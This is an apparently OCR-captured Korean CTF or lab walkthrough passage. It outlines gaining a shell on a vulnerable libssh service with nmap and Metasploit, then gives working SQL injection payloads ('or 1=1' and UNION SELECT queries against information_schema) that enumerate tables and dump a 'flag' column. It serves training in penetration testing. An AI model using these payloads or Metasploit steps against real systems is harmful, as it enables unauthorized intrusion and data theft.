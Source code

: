 ```
- 2. 웹쉘에 접근 가능

6. key : conn   find / -name abcdef

7. nmap 활용 (칼리 터미널에서) libssh

8. 메타스플로잇 활용 (search libssh, show options, set 옵션, run)
- set rhost : ip 주소
- set rport : 포트번호
- set spawn_pty true : 가상의 터미널 여는 옵션
- 세션이 열리면 sessions -i : 열려있는 세션 확인, sessions -i 세션 넘버 // 쉘 열림
```

**시나리오 흐름도**

1. 취약점 확인
2. DB 정보 확인
3. 데이터 탈취
4. 관리자 계정 탈취
5. 서버 장악
6. 정보 탈취
7. 취약점 확인
8. 서버 장악

***

### 1) 취약점 확인

회원 가입 후, 메모 조회 기능에 임의 문자열('#) 입력 후 반응 보기 -> SQL Injection 취약점
```
') or 1 = 1 ; #
```
타 사용자의 메모를 조회할 수 있음.

***

### 2) DB 정보 확인

DB 정보를 찾기 위해 먼저
```sql
') UNION SELECT 1, 2, table_name, 4 FROM information_schema.tables WHERE table_type='base table' ; #
```
입력하여 'f14g'라는 테이블 이름 알아내기

***

### 3) 데이터 탈취

'f14g' 테이블의 컬럼명 알아내기
```sql
') UNION SELECT 1, 2, column_name, 4 FROM information_schema.columns WHERE table_name='f14g' ; #
```
입력하여 'flag'라는 컬럼명을 알아내고, 조회된 컬럼명을 토대로 컬럼값을 조회해본다.
```sql
') UNION SELECT 1, 2, flag, 4 FROM f14g ; #
```
